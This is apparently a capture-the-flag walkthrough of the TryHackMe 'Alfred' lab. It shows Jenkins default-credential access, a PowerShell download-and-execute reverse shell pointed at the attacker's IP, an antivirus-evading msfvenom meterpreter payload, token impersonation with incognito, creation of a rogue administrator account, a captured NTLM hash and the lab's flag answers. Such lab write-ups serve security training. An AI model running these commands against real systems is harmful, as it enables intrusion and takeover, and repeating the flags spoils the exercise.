





# Alfred

Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

[Alfred](https://tryhackme.com/room/alfred)

## 💢 We will cover  the topics

- Network Enumeration
- Abusing Token Privileges For LPE


---------------------------------

## Task 1 Initial Access

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access.

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

How many ports are open? (TCP only)

```
kali@kali:~/CTFs/tryhackme/Alfred$ sudo nmap -A -sS -sC -sV -O -Pn 10.10.176.61
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-18 21:16 CET
Nmap scan report for 10.10.176.61
Host is up (0.053s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2020-10-02T14:42:05
|_Not valid after:  2021-04-03T14:42:05
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   40.28 ms 10.8.0.1
2   55.56 ms 10.10.176.61

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1254.35 seconds
```

`3`

What is the username and password for the log in panel(in the format username:password)



`admin:admin`

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it:
`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`

You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python:
`python3 -m http.server`

[http://10.10.176.61:8080/job/project/configure](http://10.10.176.61:8080/job/project/configure)



```ps1
powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.106.222/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.106.222 -Port 9001
```





`No answer needed`

What is the user.txt flag?

```
kali@kali:~/CTFs/tryhackme/Alfred$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.176.61 49224
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
PS C:\Program Files (x86)\Jenkins\workspace\project> cd "C:\Users\bruce\Desktop"
PS C:\Users\bruce\Desktop> dir


    Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        10/25/2019  11:22 PM         32 user.txt


PS C:\Users\bruce\Desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0
```

`79007a09481963edf2e1321abd9ae2a0`

## Task 2 Switching Shells

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

Before running this program, ensure the handler is set up in metasploit:

`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run`

This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell

`Start-Process "shell-name.exe"`

This should spawn a meterpreter shell for you!

What is the final size of the exe payload that you generated?

```
kali@kali:~/CTFs/tryhackme/Alfred$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.106.222 LPORT=9002 -f exe -o win_revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: win_revshell.exe
```

`73802`

## Task 3 Privilege Escalation

Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

- user SIDs(security identifier)
- group SIDs
- privileges

amongst other things. More detailed information can be found here.

There are two types of access tokens:

- primary access tokens: those associated with a user account that are generated on log on
- impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

View all the privileges using whoami /priv

```
PS C:\Users\bruce\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

`No answer needed`

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.

`No answer needed`

To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?

`NT AUTHORITY\SYSTEM`

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS

`No answer needed`

read the root.txt file at C:\Windows\System32\config

```
kali@kali:~/CTFs/tryhackme/Alfred$ sudo smbserver.py smbfolder .
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.176.61,49259)
[*] AUTHENTICATE_MESSAGE (alfred\bruce,ALFRED)
[*] User ALFRED\bruce authenticated successfully
[*] bruce::alfred:aaaaaaaaaaaaaaaa:8cf02ea70c705df2b6411afcee008cfc:010100000000000000100128efbdd601fafa4637b85be99c000000000100100051006c005500530063005a004f0070000300100051006c005500530063005a004f007000020010004e006800670056005900520078006d00040010004e006800670056005900520078006d000700080000100128efbdd601060004000200000008003000300000000000000000000000003000008146bf154e488fc0cac7383dfee4c73eeca272c7f0291b32716524219b103f5b0a001000000000000000000000000000000000000900220063006900660073002f00310030002e0038002e003100300036002e00320032003200000000000000000000000000
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SMBFOLDER)
[*] Closing down connection (10.10.176.61,49259)
[*] Remaining connections []
```

[](https://labs.f-secure.com/archive/incognito-v2-0-released/)

```
kali@kali:~/CTFs/tryhackme/Alfred$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.176.61 49257
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>cd C:\windows\temp
PS C:\windows\temp> copy \\10.8.106.222\smbfolder\incognito2\incognito.exe
PS C:\windows\temp> dir


    Directory: C:\windows\temp


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----        10/25/2019   8:04 PM            hsperfdata_WIN-NPD8TIBHOIO$
d----        10/25/2019   9:54 PM            jetty-0.0.0.0-8080-war-_-any-24795
                                             42305151993622.dir
d----        10/25/2019   9:55 PM            jna--652807375
-a---        10/27/2019  12:25 AM       8838 Amazon_SSM_Agent_20191026162504.lo
                                             g
-a---        10/27/2019  12:25 AM     180060 Amazon_SSM_Agent_20191026162504_00
                                             0_AmazonSSMAgentMSI.log
-a---        10/27/2019  12:25 AM       1207 cleanup.txt
-a---        10/27/2019  12:25 AM        422 cmdout
-a---        10/27/2019  12:21 AM       1005 dd_dotnetfx45_decompression_log.tx
                                             t
-a---        10/25/2019   9:47 PM          0 DMI687E.tmp
-a---        10/27/2019  12:25 AM       8786 EC2ConfigService_20191026162425.lo
                                             g
-a---        10/27/2019  12:25 AM     262728 EC2ConfigService_20191026162425_00
                                             0_WiXEC2ConfigSetup_64.log
-a---        10/27/2019  12:25 AM          0 FXSAPIDebugLogFile.txt
-a---        10/27/2019  12:25 AM          0 FXSTIFFDebugLogFile.txt
-a---         7/18/2012   1:12 PM     102912 incognito.exe
-a---        10/27/2019  12:21 AM    1140366 Microsoft .NET Framework 4.5.1 Set
                                             up_20191026_162047619.html
-a---        10/26/2019  12:17 PM       1816 MpCmdRun.log
-a---        10/27/2019  12:25 AM         21 stage1-complete.txt
-a---        10/27/2019  12:25 AM      34037 stage1.txt
-a---        10/16/2019   7:26 AM     113328 svcexec.exe
-a---        10/27/2019  12:25 AM         67 tmp.dat
-a---        10/25/2019   9:47 PM     262144 TS_C43B.tmp
-a---        10/25/2019   9:47 PM     262144 TS_C584.tmp
-a---        10/25/2019   9:47 PM     458752 TS_C602.tmp
-a---        10/25/2019   9:47 PM     196608 TS_C75B.tmp
-a---        10/25/2019   9:47 PM     196608 TS_C8A4.tmp
-a---        10/25/2019   9:47 PM     196608 TS_C941.tmp
-a---        10/25/2019   9:47 PM     720896 TS_C9BF.tmp
-a---        10/25/2019   9:47 PM     458752 TS_CD89.tmp
-a---        10/25/2019   9:47 PM     262144 TS_CE84.tmp
-a---        10/25/2019   9:54 PM    2390099 winstone2061818542446950210.jar
```

```
PS C:\windows\temp> ./incognito.exe add_user stroke hello123!
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user stroke to host 127.0.0.1
[+] Successfully added user
PS C:\windows\temp> ./incognito.exe add_localgroup_user Administrators stroke
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user stroke to local group Administrators on host 127.0.0.1
[+] Successfully added user to local group
PS C:\windows\temp>
```



`dff0f748678f280250f25a45b8046b4a`
